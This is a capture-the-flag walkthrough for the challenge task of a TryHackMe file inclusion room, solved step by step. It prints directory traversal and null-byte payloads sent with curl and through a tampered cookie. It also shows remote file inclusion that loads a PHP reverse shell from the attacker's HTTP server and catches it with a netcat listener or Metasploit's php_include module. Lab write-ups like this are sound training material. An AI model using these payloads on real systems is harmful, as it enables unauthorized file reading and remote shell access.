# 🧠 TryHackMe Room: File Inclusion (Challenge Task Only)

**Room URL:** [https://tryhackme.com/room/fileinc](https://tryhackme.com/room/fileinc)  
**Author:** Schenkee  
**Profile:** [https://tryhackme.com/p/schenkee](https://tryhackme.com/p/schenkee)

---

## 🧩 Challenge Task Overview

**Objective:**  
This guide will cover the steps required to gain the flags to complete the Challenge task of the room. We will cover 2 different methods to gain RCE access to /playground.php for question 4. Please read through the initial tasks to gain an understanding of Local File Inclusion (LFI), Remote File Inclusion (RFI), and directory traversal Vulnerability.

---

## 🧰 Tools I Used
- Kali Linux
- Metasploit
- Curl
- Python3 http server
- Netcat
- PHP Reverse Shell By Pentestmonkey which can be found here: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

---

## 🛠️ TASK 1: Capture Flag1 at /etc/flag1
Navigate to the first task at **http://MACHINE_IP/challenges/chall1.php** Once the page loads we are greeted with a important message to aid us in capturing the flag.  
The page reads "The Input form is broken! You need to send **'POST'** request with **'file'** parameter! This message gives us a great starting point as we know we need to send a POST request. This can be done in a couple of different manners such as BurpSuite or Curl.

In this instance I will use Curl to generate the POST request and receive the flag. Open up your terminal either on your VM or in the AttackBox using CTRL+ALT+T and input the below command 

```curl http://MACHINE_IP/challenges/chall1.php -d "file=../../../../etc/flag1" ```  
#### ⚙️ **Options**  
**-d** is used to set the data to send, in this case ```file=../../../../etc/flag1``` using the -d flag will default the request into a POST request.  
  
You should end up with something like the below  
  
I did use -X and -d which I later learnt was not required and only -d was needed.  

This will then return a raw response from the web server which will contain our flag as below.



---

## 🛠️ TASK 2: Capture Flag2 at /etc/flag2  
Now lets move onto the second challenge at **http://MACHINE_IP/challenges/chall2.php** This time once the page loads we are greeted with a message asking us to refresh the page.  
Lets refresh as requested and then we are given some more important information as to the likely path for capture the flag. The page reads as below  
  
  
Lets inspect the page via the browsers Developer Tools to see if we can work out what’s going on here and how we can change ourselves to be an **admin** on investigation of the cookie in the **Network** tab we can see that the cookie has a parameter of **THM=Guest** which we might be able to edit.  
  

Lets see if we can edit this cookie parameter to make ourselves an admin. Navigate to the **Storage** tab to modify the cookie. Lets adjust the cookie value from Guest to **admin** 


Once we have adjusted the cookie refresh the page and if successful we should revise a new message as below.  
  

Now we might think, that once we are the admin we can simply request the flag via the address bar as in previous tasks. But in this instance that will not yield any results, but what we did learn via the above steps is that we are able to tamper with the cookie.  
So lets use that knowledge and see if we can input the flag2 path as the cookie value. Navigate back to your browsers **storage** tab in the Developer Tools and adjust the cookie value to ```../../../../etc/flag2%00```  
  

Refresh the page and we can see that we have been able to successfully view the contents of flag2 by tampering with the cookie value.  



---

## 🛠️ TASK 3: Capture Flag2 at /etc/flag3  
Task 3 was arguably the one I spent the most time working through and via a process of elimination/trial and error I managed to get the flag. Once we load up the challenge at **http://MACHINE_IP/challenges/chall3.php** we will not see anything of not such as with the two previous tasks. So as a start lets just pop in our file path and see what is returned.  

Entering ```../../../../etc/flag3``` into the input form will not return our flag. But the result does contain some useful information for us. Below is the returned information.  
  

We can see from this image that there appears to be some input sanitisation occurring which has modified our input from ```../../../../etc/flag3``` to simply ```etcflag.php``` This indicates that the web server is removing dots and slashes and also appending the input with .php indicating the developer has specified the file type to pass to the include function. We can bypass this last part via a null byte.

After some trial and error I was still not able to find any success with the website and decided to try using Curl again to make the request.  
I first attempted a Curl request similar to what we used in Task 1  ```curl http://MACHINE_IP/challenges/chall1.php -X POST -d "file=../../../../etc/flag3%00" ```     
Which returned an error messaged indication that the output needed to be passed to a fail, as such I modified my input to output the returned data into a file using the below  

```curl http://MACHINE_IP/challenges/chall1.php -X POST -d "file=../../../../etc/flag3%00" -o file.txt```  
#### ⚙️ **Options**    
**-d** is used to set the data to send with the POST request in this case ```file=../../../../etc/flag3%00``` using the -d flag will default the request into a POST request.  
**-o** is used to output the returned result into a file of the specified name and type.  

You should end up with something like the below  
  
I did use -X and -d which I later learnt was not required and only -d was needed.  
  
Once the data has been returned we can then open our created file using ```cat file.txt```  
This will return the below with the required flag for task 3.  
  


---

## 🛠️ TASK 4: Gain RCE in Lab #Playground and find the hostname
As mentioned in the top summary I will demonstrate two different methods to gain RCE access to this lab one via Metasploit and one by loading a TCP Reverse Shell manually.  
But first lets to a quick manual test to verify the RFI vulnerability is actually present, before we work on obtaining RCE access.    
Open up your terminal and input ```echo "Hello World" > test.php``` This will create a .PHP file with "Hello World"  
  

Next we need to setup a http server in the same directory as our file which will be used to download the file onto the target. We can do this via the below  
```python3 -m http.server 8080```  
#### ⚙️ **Options**  
**-m** option is used to tell python to search for and run a specific module in this instance the http.server module.  

Which would look like this  
  
We now have running a http.server in our directory which will allow us to download the test.php file from the web server.  

Navigate back to the playground webpage and enter the following into the address bar  
```MACHINE_IP/playground.php?file=http://YOUR_MACHINE_IP:8080/test.php```  
If done correctly we will be able to see a **GET** requested received in our terminal with the running http server as below.  


And we can also confirm the test on the website where we can see the output contents of our file.
  

This confirms there is a RFI vulnerability which we can exploit to gain RCE access.  

### 🔥 Metasploit option  
For this method we will use the PHP_Include metasploit module to gain RCE access.  
Open up metasploit using ```mfsconsole```  
Once Metasploit has started we will load our module using ```use exploit/unix/webapp/php_include```  
Next type in ```show options``` which will bring up the different payload options. We will need to configure some options to enable this attack.  
  

#### ⚙️ **Options**  
Some options are already pre-set with default values. The ones we need to configure are **PATH**, **PHPURI**, **RHOSTS** and **LHOST**  
**LHOST** Set this to be your AttackBox or VM ipaddress.  
**RHOSTS** Set this to be the IP address of the target machine. You can find this in the address bar of the /playground website.  
**PHPURI** This sets the point where the payload should be inserted. Input ```?file=XXpathXX```  
**PATH** This sets the base directory which will be added to the url ```/playground.php```  
  
You should end up with a similar setup as below.  
  
  

Now we and run the exploit be using either ```run``` or ```exploit```  
If successful we should see a meterpreter session has been created.  
  

Now we can spawn a bash shell and retrive the flag. Type in ```shell -b``` to spawn a bash shell and the input ```hostname``` to retrive our flag.  
  

### 👨‍💻 Manual shell option  
Here I will demonstrate another method to gain RCE access without using Metasploit. Firstly we will need to find a payload to use and my go to is the Reverse TCP Payload which can be found here: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)  
Incidentally when you review the Metasploit option you will see that it is also using a reverse TCP payload to perform the attack.

Lets open up a blank file on our machine with your prefered text editor. I will use nano so I will input ```nano rce.php``` into my terminal to open a new black file. One you have the file opened copy and paste the entire payload code linked in the above github repository. Once copied into our file we will need to configure a couple of items.  

#### ⚙️ **Options**  
Find the line starting with ```$ip```  
**$ip** change this to be your attackbox or VM ip address  
**$port** Input a selected port that we will use for your listner.  

This should look similar to the below.  
  

Save the file and if needed move into the directory of the file as we will need to start a http server to serve the file to the web server.  
To start a http server input ```python3 -m http.server 5050``` this port is not the same port as in the payload options we set above.  
#### ⚙️ **Options**  
-m option is used to tell python to search for and run a specific module in this instance the http.server module.  

This should look like the below.  
  

Now lets setup our listner using netcat. This is where the payload will call back to and spawn our shell.  
Input ```nc -lnvp 8080``` into your terminal. The port here should match your payload port setup.  
#### ⚙️ **Options**  
**-l** Sets netcat into listen mode.  
**-n** Sets netcat to numeric IP address only mode.  
**-v** Sets netcat into verbose mode.  
**-p** Sets the port for netcat  
These can all be combined into the string ```-lnvp``` followed by the required port.  

This should look as below.  
 

Perfect now we have our payload set, our http server running to serve the payload and or listner going to wait for the reverse connection. Lets run the payload.  

Navigate to the ```MACHINE_IP/playground.php?``` site and input the below into the address bar.  
```MACHINE_IP/playground.php?file=http://YOUR_MACHINE_IP:5050/rce.php```  
Which should look like the below  


If successful we should se a GET request was recived by our http server.  
  

Our listner should have recived the reverse connetion. If succesful we can see the hosename in the initial connection details or type in ```hostname``` to capture our flag.

